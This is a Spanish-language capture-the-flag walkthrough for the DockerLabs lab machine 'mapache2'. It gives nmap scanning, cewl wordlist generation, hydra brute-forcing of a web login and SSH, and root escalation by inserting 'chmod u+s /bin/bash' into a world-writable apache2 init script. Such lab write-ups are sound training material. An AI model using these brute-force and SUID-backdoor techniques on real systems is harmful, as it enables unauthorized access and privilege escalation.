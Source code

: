 # mapache2

Maquina "mapache2" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![mapache](../../../maquina-mapache2/img/mapache2.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Sep  2 20:00:22 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000022s latency).
Scanned at 2024-09-02 20:00:23 -03 for 11s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2e:9e:60:04:ea:da:48:98:7a:e3:eb:f5:8e:25:83:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPh6UqEY++e9Kf6SVPV8+FwzeSzn1Sb0a5BjOpOhmjfJq4/cPpz7ZuUzWpqkjPx71va69nLnOVJ9eLaCuIq8hi4=
|   256 64:0a:26:78:24:8e:1a:75:54:5a:58:bc:f4:18:ce:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIADa8Dt31nScLWTk1pM77PTDusyfx57GAuWtGyGFGRpA
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hackerspace - Welcome
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql?  syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|_    We have to change this, I told Medusa to protect this more.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=9/2%Time=66D64388%P=x86_64-pc-linux-gnu%r(
SF:NULL,3C,"We\x20have\x20to\x20change\x20this,\x20I\x20told\x20Medusa\x20
SF:to\x20protect\x20this\x20more\.\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  2 20:00:34 2024 -- 1 IP address (1 host up) scanned in 11.43 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`3306: ????`

Si nos fijamos el 3306 no parece estar corriendo mysql ni nada y mas encima dice esto:

"We have to change this, I told Medusa to protect this more."

Para confirmar si realmente dice eso podriamos conectarnos con netcat para ver si nos dice ese mensaje:

```css
nc <ip> 3306
```

y como vemos en la salida, el mensaje es correcto, por lo que tenemos un posible usuario: "medusa"

Ahora que ya obtuvimos algo de información, podemos ir a el navegador y entrar en la ip para ver que hay:

![80](../../../maquina-mapache2/img/80.png)

Como vemos es una página que no tiene mucha importancia pero tiene un panel de login, por lo que luego de probar, intento usar `cewl` para obtener las palabras de la página y guardárnoslas para usarlas con hydra :

```css
cewl http://<ip> > pass
```

una vez hecho eso ejecutamos hydra usando el usuario "medusa" y el diccionario:

```css
hydra -l medusa -P pass <ip> http-post-form "/login.php:username=medusa&password=^PASS^:Invalid credentials"
```

![hydra](../../../maquina-mapache2/img/hydra.png)

Como vemos ya tenemos la contraseña.

Una vez iniciada la sesión veremos otra página inutil, pero al ver el codigo fuente se ve este mensaje:

```css
<!-- I hope my boss doesn't kill me, but I tell kinder what a mess medusa made with the message from the port. -->
```

parece que hay otro usuario llamado "kinder"

Probamos con el diccionario de antes:

```css
hydra -l kinder -P pass ssh://172.17.0.2
```

pero esto tampoco funciona, por lo que se me ocurre probar la contraseña "medusa" y gano acceso

#### Credenciales:

`Kinder:medusa`

(con la "k" en mayusculas)

## INTRUSION

```css
ssh Kinder@<ip>
```

con contraseña "medusa".

## ESCALADA DE PRIVILEGIOS

Si ejecutamos un `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for Kinder on 50b2ab6877b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Kinder may run the following commands on 50b2ab6877b6:
    (ALL : ALL) NOPASSWD: /usr/sbin/service apache2 restart
```

podemos ver el servicio de apache2 en `/etc/init.d/apache2` y ver si oculta algo. Ahora si hacemos un `ls -la` en ese archivo veremos esto:

```css
-rwxrwxrwx 1 root root 8141 Aug 23 21:07 /etc/init.d/apache2
```

como lo podemos modificar simplemente con nano lo modificamos y la primeras 2 líneas nos deben quedar así:

```css
#!/bin/bash
chmod u+s /bin/bash
```

en resumen: Cambiamos "#!/bin/sh" por "#!/bin/bash" y agregamos un chmod debajo para darle permisos SUID a bash.

Ahora ejecutamos `sudo service apache2 restart` y listo, solo nos queda ejecutar `bash -p` y ya seremos root.

![root](../../../maquina-mapache2/img/root.png)

Gracias por leer.
